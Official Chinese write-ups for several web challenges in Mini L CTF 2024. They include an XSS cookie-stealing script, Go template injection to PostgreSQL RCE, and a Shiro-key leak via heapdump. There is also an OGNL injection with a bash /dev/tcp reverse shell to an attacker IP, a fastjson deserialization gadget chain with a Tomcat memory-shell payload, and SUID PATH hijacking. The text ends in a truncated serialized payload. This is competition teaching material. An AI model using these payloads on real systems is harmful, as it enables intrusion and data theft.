


# Official Writeups of Web Chals in Mini L CTF 2024

Auther: XDSEC & L-team

## Snooker King - Klutton

这是一道使用cocos引擎手搓的斯诺克小游戏（项目文件未上传，需要联系出题人），题目要求打进1145个球

### 预期解

f12打开控制台观察访问的文件，逐个ctrl+f搜索就可以了


其实就是cocos首先加载组件脚本，随后再加载了组件脚本的配置变量

本来想要混淆一下flag，后来想想算了作为签到题难度不用太高

## Msgbox - Klutton

题目提供了源码，实际上有点烟雾弹了，这道题不给附件说不定做得更快

从代码可以看到访问report就相当于让admin机器人访问最新的信件

总的来说就是用flask写了一个邮件系统，通过xss获取admin的cookie

### 预期解

在templates/read.html中可以看到meta头

```html
    <meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'nonce-{{ nonce }}' cdn.jsdelivr.net;">
```

渲染时的选项为
```html
<body>
    <div class="container">
        <h1>Message</h1>
        <div class="message">
            <p><strong>From:</strong> {{ message.sender }}</p>
            <p><strong>Date:</strong> {{ message.creation }}</p>
            <p><strong>Header:</strong> {{ message.header }}</p>
            <p><strong>Content:</strong></p>
            <p id="content">{{ message.content | safe }}</p>
        </div>
        <div class="back-link">
            <a href="/inbox">Back to Inbox</a>
        </div>
    </div>

    <script src="https://cdn.jsdelivr.net/npm/marked/marked.min.js"></script>
    <script nonce="{{ nonce }}">
        document.addEventListener('DOMContentLoaded', function() {
            var content = document.getElementById('content');
            content.innerHTML = marked.parse(content.textContent);
        });
    </script>
</body>
```

使用了safe渲染模板（不转义），在使用markdown渲染前也没有使用dompurify（作者强调需要用dompurify），导致了xss注入

注入需要绕过一下csp，csp允许从cdn加载脚本，因此可以上传自己的恶意脚本到npm上然后从jsdeliver上拉下来

exp:
```js
// 在页面加载完成时执行
document.addEventListener("DOMContentLoaded", () => {
    // 发送数据函数
    function sendData(data) {
      console.log("Sending data");
  
      const XHR = new XMLHttpRequest();
  
      const urlEncodedDataPairs = [];
  
      // 将数据对象转换为 URL 编码的键/值对数组。
      for (const [name, value] of Object.entries(data)) {
        urlEncodedDataPairs.push(
          `${encodeURIComponent(name)}=${encodeURIComponent(value)}`,
        );
      }
  
      // 将配对合并为单个字符串，并将所有 % 编码的空格替换为
      // “+”字符；匹配浏览器表单提交的行为。
      const urlEncodedData = urlEncodedDataPairs.join("&").replace(/%20/g, "+");
  
      // 定义成功数据提交时发生的情况
      XHR.addEventListener("load", (event) => {
        alert("耶！已发送数据并加载响应。");
      });
  
      // 定义错误提示
      XHR.addEventListener("error", (event) => {
        alert("哎呀！出问题了。");
      });
  
      // 建立我们的请求
      XHR.open("POST", "send");
  
      // 为表单数据 POST 请求添加所需的 HTTP 头
      XHR.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  
      // 最后，发送我们的数据。
      XHR.send(urlEncodedData);
    }
  
    // 执行发送数据函数，并设置表单数据
    sendData({ 
      header: "flags arrived!", 
      listener: "klutton", 
      content: document.cookie
    });
  });
```

ai糊的脚本

用npm发布该脚本之后

注册账号名为klutton的账号后发送内容为`<script src="xxx"></script>`的邮件到admin后report就行了

### 致歉

由于docker的打包不严谨导致机器人的访问有问题，随后重新打包docker解决了问题

## SmartPark/SmartPark-Revenge - Klutton

这道题有点小绕，本质上的难度并不是很高

给了一个网站，随后需要进行目录扫描（有些选手扫不到swagger/index.html这是我意料外的），找到swagger后可以看到网站的api以及用途描述，然后自己开一个账号登陆上去后就可以访问受限的内容，访问backup可以得到站点的源码，随后就可以审计代码辣

关于题目的小问题放在后面说一下

### 预期解

首先dirscan一下，可以扫到/swagger/index.html


那同时还看到有backup，当然直接访问是不行的，因为要求用户登录

通过swagger后台可以猜出登录顺序


先post到account路由注册账号

再get到captcha路由获取验证码的key和token

然后拿着账号密码和一组验证码key和token去登录得到返回头Authorization的值

拿去用来访问受限的路由backup即得源码

同时还注意到路由test也是访问受限的，所以应当先看一下此路由

```golang
func templateTest(c *gin.Context) {
	body, err := io.ReadAll(c.Request.Body)
	if err != nil {
		c.String(http.StatusInternalServerError, "Failed to read request body")
		return
	}
	if len(body) == 0 {
		body = []byte("Welcome, server time: {{.Result}}")
	}
	f := newQuery()
	f.DbCall("SELECT now();")

	tmpl := template.Must(template.New("text").Parse(string(body)))
	c.Writer.WriteHeader(http.StatusOK)
	tmpl.Execute(c.Writer, f)
}
```

其实这里已经提示有ssti了，golang的ssti参考[https://tyskill.github.io/posts/gossti/](https://tyskill.github.io/posts/gossti/)

大概来说就是可以在模板渲染的时候访问结构体的公有属性和公有函数，并且可以执行结构体的函数（可以看出来这道题写得有点刻晴了）

通过ssti执行数据库查询语句的方法（设置body）:
```
{{.DbCall "select current_user;"}} Result = {{.Result}}
```

很方便的就把回显获得了

随后通过数据库读取/flag得到`GET IT FROM ENV`

通过数据库RCE之后`echo $FLAG`就可以了（或者保存到tmp下再次读文件）

postgres RCE: [https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions)

### 其它说明

#### 为什么题目重做了

swagger的注释其实是人工智能糊出来的，但是因为我用postman发数据所以就没在意这一点，后来发现影响了swagger的请求

#### 非预期和Revenge

在题目发布的时候，`controllers.go`的`parkingAddition`函数的正则匹配跳过了`describe`的匹配；在`login`中的`password`的正则匹配是按照ascii码进行匹配的，因此也可以直接sqli

后面发现校内很多选手都没有ssti直接sqli打的因此感到有些意外，于是把题目修了之后把正则改了一下又上了一道Revenge

##### 为啥用正则

直接用gorm哪儿来的洞（

## Jvav Guy - whocansee

### 预期解

**解题过程 from cafebaby：**

```Plain
http://IP:PORT/actuator/heapdump
```

通过Actuator-Leak，下载heapdump

用 heapdump_tool 分析，获得 shirokey

```Plain
java -jar heapdump_tool.jar wabibabo
[-] file: wabibabo
[-] Start jhat, waiting...
[-] fing object count: 120274
[-] too many object,please input 0/1 to choose mode.
0. (search data, may can't find some data, can't use function num=,len=,getip,geturl,getfile).
1. (load all object, need wait a few minutes).
> 1
[-] start process object, waiting...
[-] please input keyword value to search, example: password,re=xxx,len=16,num=0-10,id=0x123a,class=org.xx,all=true,geturl,getfile,getip,shirokey,systemproperties,allproperties,hashtable input q/quit to quit.
> shirokey
>> 3ScQ/9pIhkTTSylCwe86qg==
```

用 ShiroAttack2 (https://shiro.sumsec.me/) 进行攻击：



填写地址和 shirokey，检测下密钥（启用 AES GCM 加密）和利用链，就可以执行任意命令了。

`cat /ruoyi/flag.txt`

### 另一种解法

实际上还可以打RuoYi-4.7.8的1day

原理：

https://xz.aliyun.com/t/13958

工具：

https://github.com/charonlight/RuoYiExploitGUI

### 多说几句

##### 预期解用工具很简单，整体攻击流程其实并不简单

- 利用较常见的Spring-Actuator Leak漏洞获取敏感信息，如Shiro-Key
- 打反序列化漏洞，gadget选用Spring原生的JacksonWithXString**（建议手搓学习一下）**
- 从而执行任意Java代码，具体逻辑选用**内存马/回显**/单纯执行命令弹shell都可以，前两个因为不出网很好用，建议有时间的话研究学习一下，协会有很多相关帖子，网上也有很多文章，工具的话JEG和JMG都挺好的

##### 而RuoYi-4.7.8的1day可以进行JNDI注入，从而转到

- 低版本的加载远程类从而执行任意Java代码
- 高版本的反序列化
- 高版本的factory本地gadget，请学习浅蓝的高版本下JNDI注入文章+PPT，以及JDBC ATTACK

##### 关于Java中执行命令和弹shell

下面这篇文章挺好的，建议学习+实操

https://b1ngz.github.io/java-os-command-injection-note/

理解原理过后，请看下一个题解中cafebaby同学的操作~

## InjectionS - whocansee

### 解题过程

**这里同样放上cafebaby的解法：（最后弹shell的payload非常精彩）**

http://47.113.202.32:8080/admin/1 根据代码可知这个页面是查询 id 为 1 的用户的名字，但是有权限检查。

末尾加上`%0d%0a`绕过权限检查，即http://47.113.202.32:8080/admin/1%0d%0a


根据提示，尝试进行 OGNL 注入，发现确实可以注入：


http://47.113.202.32:8080/admin/${@java.lang.Math@max(1,2+1)}%0d%0a 

这个相当于是

http://47.113.202.32:8080/admin/3%0d%0a

因此这里可以注入。

我们需要通过下面的 Java 代码反弹 Shell：

```Java
Runtime.getRuntime().exec("/bin/bash -c bash$IFS$9-i>&/dev/tcp/IP地址/端口<&1")
```

（这里需要注意这个 exec() 函数对字符串的分割机制，bash -c 的内容不能有空格（用单引号括起来也没用，有空格就会被 java 分割），否则会出问题）

因为 / 是 HTTP 的路径分隔符，这里要用`System.getProperty("file.separator")`来获得 `"/"` ，然后用 concat 来拼接出整个字符串。

最终 Payload：

```HTML
http://47.113.202.32:8080/admin/${@java.lang.Runtime@getRuntime().exec(@java.lang.System@getProperty("file.separator").concat("bin").concat(@java.lang.System@getProperty("file.separator")).concat("bash%20-c%20bash$IFS$9-i%3E&").concat(@java.lang.System@getProperty("file.separator")).concat("dev").concat(@java.lang.System@getProperty("file.separator")).concat("tcp").concat(@java.lang.System@getProperty("file.separator")).concat("IP地址").concat(@java.lang.System@getProperty("file.separator")).concat("端口%3C&1"))}%0D%0A
```

（请替换为你自己的有公网 IP 的主机的 IP 和 端口，在这个端口用 nc 监听）

**另附`payprays`同学的另一种弹shell思路**

> ` ${@java.lang.Runtime@getRuntime().exec('wget vps/file')}`可以执行，然后传个弹shell脚本后就可以执行了

### 多说几句

其实做CTF题目，经常会遇到**不出网**的情况，此时不要执着于弹shell

除了Java中的内存马+回显技术，PHP中直接echo，以及其它Web语言中的独有回显方式

其实还有一个通用的方法来获取flag

**把命令执行结果写文件到能访问的web目录/静态资源目录**（纯Jar包部署的Spring应用除外）

假设目标服务器存在test.html这样一个可以访问的静态资源，payload如下：

**Linux**

```
// 进入test.html的根目录并执行id命令写入1.txt
cd $(find -name "test.html" -type f -exec dirname {} \; | sed 1q) && echo `id` > 1.txt
```

**Windows**

```
$file = Get-ChildItem -Path . -Filter test.html -recurse -ErrorAction SilentlyContinue;$f = -Join($file.DirectoryName,"/a.txt");echo 222 |Out-File $f
```

同理去寻找css，js也可以

此外不出网可能并不是所有协议都不出网，至少你该试试**dnslog**外带回显

至于普通出网场景，就有无数种回显方式了~

## Ezjaba - 1032

启发自AliyunCTF ezjava

直接把ezjava的Mybean删掉了，应该是原题的非预期解

利用链为

ysomap的makeReadObjectToStringTrigger链

​          readObject()->JSONObject.toString()->SignedObject.getObject()->二次反序列化templatesImpl

由于环境不出网，直接打tomcat内存马


环境以ctf低权限运行，/flag为admin权限

根目录下存在二进制文件/list,并且有admin的SUID,逆向list发现运行了system("ls /var/www/html/uploads")

于是可以劫持$PATH，在/tmp下用gcc编译一个二进制文件取名为ls，内容为system("cat /flag")

然后执行

```
export PATH=/tmp:$PATH && /list
```

至于为什么用gcc呢，因为chmod被我删了没法加+x权限，虽然bash文件可以用.来执行 但是在这里派不上用场。

Exp: 

基于https://github.com/Y4er/ysoserial

```
package ysoserial.payloads;

import com.alibaba.fastjson.JSONObject;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.Reflections;

import javax.management.BadAttributeValueExpException;
import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.security.*;
import java.util.Base64;
import java.util.Vector;

public class Fastjson {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = (TemplatesImpl) Gadgets.createTemplatesImpl("CLASS:TomcatCmdEcho");
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(templates, kp.getPrivate(), Signature.getInstance("DSA"));
        JSONObject jo = new JSONObject();
        jo.put("foo",signedObject);
        /**
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val,jo);
         **/
        EventListenerList list = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) Reflections.getFieldValue(manager, "edits");
        vector.add(jo);
        Reflections.setFieldValue(list,"listenerList", new Object[]{InternalError.class, manager});
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeUTF("qn0ABX");
        oos.writeObject(list);
        System.out.println(Base64.getEncoder().encodeToString(barr.toByteArray()));
    }
}

```

```
POST /ser HTTP/1.1
Host: 82.156.5.200:1034
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
cmd: id
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 9441

data=rO0ABXcIAAZxbjBBQlhzcgAjamF2YXguc3dpbmcuZXZlbnQuRXZlbnRMaXN0ZW5lckxpc3SxNsZ9hOrWRAMAAHhwdAAXamF2YS5sYW5nLkludGVybmFsRXJyb3JzcgAcamF2YXguc3dpbmcudW5kby5VbmRvTWFuYWdlcuMrIXlMccpCAgACSQAOaW5kZXhPZk5leHRBZGRJAAVsaW1pdHhyAB1qYXZheC5zd2luZy51bmRvLkNvbXBvdW5kRWRpdKWeULpT25X9AgACWgAKaW5Qcm9ncmVzc0wABWVkaXRzdAASTGphdmEvdXRpbC9WZWN0b3I7eHIAJWphdmF4LnN3aW5nLnVuZG8uQWJzdHJhY3RVbmRvYWJsZUVkaXQIDRuO7QILEAIAAloABWFsaXZlWgALaGFzQmVlbkRvbmV4cAEBAXNyABBqYXZhLnV0aWwuVmVjdG9y2Zd9W4A7rwEDAANJABFjYXBhY2l0eUluY3JlbWVudEkADGVsZW1lbnRDb3VudFsAC2VsZW1lbnREYXRhdAATW0xqYXZhL2xhbmcvT2JqZWN0O3hwAAAAAAAAAAF1cgATW0xqYXZhLmxhbmcuT2JqZWN0O5DOWJ8QcylsAgAAeHAAAABkc3IAH2NvbS5hbGliYWJhLmZhc3Rqc29uLkpTT05PYmplY3QAAAAAAAAAAQIAAUwAA21hcHQAD0xqYXZhL3V0aWwvTWFwO3hwc3IAEWphdmEudXRpbC5IYXNoTWFwBQfawcMWYNEDAAJGAApsb2FkRmFjdG9ySQAJdGhyZXNob2xkeHA%2FQAAAAAAADHcIAAAAEAAAAAF0AANmb29zcgAaamF2YS5zZWN1cml0eS5TaWduZWRPYmplY3QJ%2F71oKjzV%2FwIAA1sAB2NvbnRlbnR0AAJbQlsACXNpZ25hdHVyZXEAfgAUTAAMdGhlYWxnb3JpdGhtdAASTGphdmEvbGFuZy9TdHJpbmc7eHB1cgACW0Ks8xf4BghU4AIAAHhwAAAXwqztAAVzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVjb2Rlc3QAA1tbQlsABl9jbGFzc3QAEltMamF2YS9sYW5nL0NsYXNzO0wABV9uYW1ldAASTGphdmEvbGFuZy9TdHJpbmc7TAARX291dHB1dFByb3BlcnRpZXN0ABZMamF2YS91dGlsL1Byb3BlcnRpZXM7eHAAAAAA%2F%2F%2F%2F%2F3VyAANbW0JL%2FRkVZ2fbNwIAAHhwAAAAAnVyAAJbQqzzF%2FgGCFTgAgAAeHAAABSxyv66vgAAADQBBQoARQCJCgCKAIsKAIoAjAoAHQCNCAB6CgAbAI4KAI8AkAoAjwCRBwB7CgCKAJIIAJMKACAAlAgAlQgAlgcAlwgAmAgAWAcAmQoAGwCaCACbCABwBwCcCwAWAJ0LABYAnggAZwgAnwcAoAoAGwChBwCiCgCjAKQIAKUHAKYIAKcKACAAqAgAqQkAJQCqBwCrCgAlAKwIAK0KAK4ArwoAIACwCACxCACyCACzCAC0CAC1BwC2BwC3CgAwALgKADAAuQoAugC7CgAvALwIAL0KAC8AvgoALwC%2FCgAgAMAIAMEKABsAwgoAGwDDCADEBwBkCgAbAMUIAMYHAMcIAMgIAMkHAMoHAQMHAMwBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEALEx5c29zZXJpYWwvcGF5bG9hZHMvdGVtcGxhdGVzL1RvbWNhdENtZEVjaG87AQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACkV4Y2VwdGlvbnMHAM0BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACDxjbGluaXQ%2BAQABZQEAIExqYXZhL2xhbmcvTm9TdWNoRmllbGRFeGNlcHRpb247AQADY2xzAQARTGphdmEvbGFuZy9DbGFzczsBAAR2YXI1AQAhTGphdmEvbGFuZy9Ob1N1Y2hNZXRob2RFeGNlcHRpb247AQAEY21kcwEAE1tMamF2YS9sYW5nL1N0cmluZzsBAAZyZXN1bHQBAAJbQgEACXByb2Nlc3NvcgEAEkxqYXZhL2xhbmcvT2JqZWN0OwEAA3JlcQEABHJlc3ABAAFqAQABSQEAAXQBABJMamF2YS9sYW5nL1RocmVhZDsBAANzdHIBABJMamF2YS9sYW5nL1N0cmluZzsBAANvYmoBAApwcm9jZXNzb3JzAQAQTGphdmEvdXRpbC9MaXN0OwEAFUxqYXZhL2xhbmcvRXhjZXB0aW9uOwEAAWkBAARmbGFnAQABWgEABWdyb3VwAQAXTGphdmEvbGFuZy9UaHJlYWRHcm91cDsBAAFmAQAZTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwEAB3RocmVhZHMBABNbTGphdmEvbGFuZy9UaHJlYWQ7AQANU3RhY2tNYXBUYWJsZQcAzgcAzwcA0AcApgcAogcAmQcAnAcAYgcAxwcAygEAClNvdXJjZUZpbGUBABJUb21jYXRDbWRFY2hvLmphdmEMAEYARwcA0AwA0QDSDADTANQMANUA1gwA1wDYBwDPDADZANoMANsA3AwA3QDeAQAEZXhlYwwA3wDgAQAEaHR0cAEABnRhcmdldAEAEmphdmEvbGFuZy9SdW5uYWJsZQEABnRoaXMkMAEAHmphdmEvbGFuZy9Ob1N1Y2hGaWVsZEV4Y2VwdGlvbgwA4QDWAQAGZ2xvYmFsAQAOamF2YS91dGlsL0xpc3QMAOIA4wwA2wDkAQALZ2V0UmVzcG9uc2UBAA9qYXZhL2xhbmcvQ2xhc3MMAOUA5gEAEGphdmEvbGFuZy9PYmplY3QHAOcMAOgA6QEACWdldEhlYWRlcgEAEGphdmEvbGFuZy9TdHJpbmcBAANjbWQMAOoA6wEACXNldFN0YXR1cwwA7ABeAQARamF2YS9sYW5nL0ludGVnZXIMAEYA7QEAB29zLm5hbWUHAO4MAO8A8AwA8QDeAQADd2luAQAHY21kLmV4ZQEAAi9jAQAJL2Jpbi9iYXNoAQACLWMBABFqYXZhL3V0aWwvU2Nhbm5lcgEAGGphdmEvbGFuZy9Qcm9jZXNzQnVpbGRlcgwARgDyDADzAPQHAPUMAPYA9wwARgD4AQACXEEMAPkA%2BgwA%2BwDeDAD8AP0BACRvcmcuYXBhY2hlLnRvbWNhdC51dGlsLmJ1Zi5CeXRlQ2h1bmsMAP4A%2FwwBAAEBAQAIc2V0Qnl0ZXMMAQIA5gEAB2RvV3JpdGUBAB9qYXZhL2xhbmcvTm9TdWNoTWV0aG9kRXhjZXB0aW9uAQATamF2YS5uaW8uQnl0ZUJ1ZmZlcgEABHdyYXABABNqYXZhL2xhbmcvRXhjZXB0aW9uAQAqeXNvc2VyaWFsL3BheWxvYWRzL3RlbXBsYXRlcy9Ub21jYXRDbWRFY2hvAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAFWphdmEvbGFuZy9UaHJlYWRHcm91cAEAF2phdmEvbGFuZy9yZWZsZWN0L0ZpZWxkAQAQamF2YS9sYW5nL1RocmVhZAEADWN1cnJlbnRUaHJlYWQBABQoKUxqYXZhL2xhbmcvVGhyZWFkOwEADmdldFRocmVhZEdyb3VwAQAZKClMamF2YS9sYW5nL1RocmVhZEdyb3VwOwEACGdldENsYXNzAQATKClMamF2YS9sYW5nL0NsYXNzOwEAEGdldERlY2xhcmVkRmllbGQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsBAA1zZXRBY2Nlc3NpYmxlAQAEKFopVgEAA2dldAEAJihMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7AQAHZ2V0TmFtZQEAFCgpTGphdmEvbGFuZy9TdHJpbmc7AQAIY29udGFpbnMBABsoTGphdmEvbGFuZy9DaGFyU2VxdWVuY2U7KVoBAA1nZXRTdXBlcmNsYXNzAQAEc2l6ZQEAAygpSQEAFShJKUxqYXZhL2xhbmcvT2JqZWN0OwEACWdldE1ldGhvZAEAQChMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsBABhqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2QBAAZpbnZva2UBADkoTGphdmEvbGFuZy9PYmplY3Q7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsBAAdpc0VtcHR5AQADKClaAQAEVFlQRQEABChJKVYBABBqYXZhL2xhbmcvU3lzdGVtAQALZ2V0UHJvcGVydHkBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEAC3RvTG93ZXJDYXNlAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgEABXN0YXJ0AQAVKClMamF2YS9sYW5nL1Byb2Nlc3M7AQARamF2YS9sYW5nL1Byb2Nlc3MBAA5nZXRJbnB1dFN0cmVhbQEAFygpTGphdmEvaW8vSW5wdXRTdHJlYW07AQAYKExqYXZhL2lvL0lucHV0U3RyZWFtOylWAQAMdXNlRGVsaW1pdGVyAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS91dGlsL1NjYW5uZXI7AQAEbmV4dAEACGdldEJ5dGVzAQAEKClbQgEAB2Zvck5hbWUBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvQ2xhc3M7AQALbmV3SW5zdGFuY2UBABQoKUxqYXZhL2xhbmcvT2JqZWN0OwEAEWdldERlY2xhcmVkTWV0aG9kAQA6eXNvc2VyaWFsL3BheWxvYWRzL3RlbXBsYXRlcy9Ub21jYXRDbWRFY2hvMTMyMDYzNzk3MjE1MDQxNgEAPEx5c29zZXJpYWwvcGF5bG9hZHMvdGVtcGxhdGVzL1RvbWNhdENtZEVjaG8xMzIwNjM3OTcyMTUwNDE2OwAhAEQARQAAAAAABAABAEYARwABAEgAAAAvAAEAAQAAAAUqtwABsQAAAAIASQAAAAYAAQAAAAkASgAAAAwAAQAAAAUASwEEAAAAAQBNAE4AAgBIAAAAPwAAAAMAAAABsQAAAAIASQAAAAYAAQAAAFcASgAAACAAAwAAAAEASwEEAAAAAAABAE8AUAABAAAAAQBRAFIAAgBTAAAABAABAFQAAQBNAFUAAgBIAAAASQAAAAQAAAABsQAAAAIASQAAAAYAAQAAAFwASgAAACoABAAAAAEASwEEAAAAAAABAE8AUAABAAAAAQBWAFcAAgAAAAEAWABZAAMAUwAAAAQAAQBUAAgAWgBHAAEASAAABdUACAARAAAC%2FQM7uAACtgADTCu2AAQSBbYABk0sBLYABywrtgAIwAAJwAAJTgM2BBUELb6iAs0tFQQyOgUZBccABqcCuRkFtgAKOgYZBhILtgAMmgANGQYSDbYADJoABqcCmxkFtgAEEg62AAZNLAS2AAcsGQW2AAg6BxkHwQAPmgAGpwJ4GQe2AAQSELYABk0sBLYABywZB7YACDoHGQe2AAQSEbYABk2nABY6CBkHtgAEtgATtgATEhG2AAZNLAS2AAcsGQe2AAg6BxkHtgAEtgATEhS2AAZNpwAQOggZB7YABBIUtgAGTSwEtgAHLBkHtgAIOgcZB7YABBIVtgAGTSwEtgAHLBkHtgAIwAAWwAAWOggDNgkVCRkIuQAXAQCiAcsZCBUJuQAYAgA